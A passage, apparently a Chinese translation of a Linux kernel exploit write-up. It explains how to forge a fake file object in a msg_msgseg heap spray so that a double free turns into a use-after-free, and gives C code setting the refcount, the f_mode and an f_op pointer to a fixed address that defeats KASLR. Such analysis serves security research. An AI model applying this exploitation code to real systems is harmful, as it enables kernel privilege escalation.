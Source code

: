 ```plain
    fput(filp);
    return retval;
}
```

正如我们所看到的，用全 NULL 覆盖文件对象会遇到三个障碍：

*   `file_count(filp)`将返回引用计数：0，从而导致`filp_close()`过早返回，
*   即使我们通过了第一个障碍，`filp->f_op`将为 NULL，因此在检查是否定义了`flush()`时，我们会导致内核崩溃，
*   最后，我们可能希望减少升级到`Use-After-Free`的复杂性，因此，我们希望在`filp->f_mode`中设置 FMODE\_PATH，  
    在这三个障碍中，将引用计数设置为 1 并将模式设置为`FMODE_PATH`很容易，我们只需要相对于覆盖我们的`msg_msgseg`的位置计算出文件中这些字段的偏移量，然后写入它们，但是确保`filp->f_op`被定义且`filp->f_op->flush`未定义需要更精细的技巧，这里的最小要求是我们有一个有效的内核指针用来替代`f_op`，此外，我们需要`flush()`为 NULL，这意味着`f_op + 0x70`必须为 NULL

```plain
/* We write this pointer to file->f_op so that f_op->flush == NULL.
 * This address and its contents are invariant across boots. */
#define NULL_MEM (0xfffffe0000002000)
```

尽管使用了 KASLR 和堆偏移随机化，但我们仍使用已知的固定地址，该地址在目标内核的所有执行期间都满足我们的需求，

```plain
static inline void set_file_spray_data(struct manager* mgr)
{

    /* Construct a fuzzy file object */
#define F_OP_OFF (88)
#define REF_OFF (128)
#define F_MODE_OFF (140)
#define MSGSEG_OFF (4000)

    memset((char *)mgr->spray, 0, MSG_SIZE);

    char *file_contents = (char *) mgr->spray + MSGSEG_OFF;
    uint8_t *f_op = file_contents + F_OP_OFF;
    uint8_t *refcount = file_contents + REF_OFF;
    uint8_t *f_mode = file_contents + F_MODE_OFF;

    *(uint64_t *) f_op = NULL_MEM;
    *(uint64_t *) refcount = 1;
    *(uint64_t *) f_mode = 0x4000;
}
```

因此，为了至少营造一个有效的文件对象的假象，我们准备好文件字段，如上所述，并像之前看到的那样将虚假的文件对象喷射到堆中，

```plain
static inline err_t double_free_file(struct manager *mgr, int32_t *hits)
{
    for (int i = 0; i < hits[N_PIPES]; i++) {
        int p_idx = hits[i];
        int in = mgr->pipes_in[p_idx][RD];
        close(in);
    }
    return SUCC;
}
```
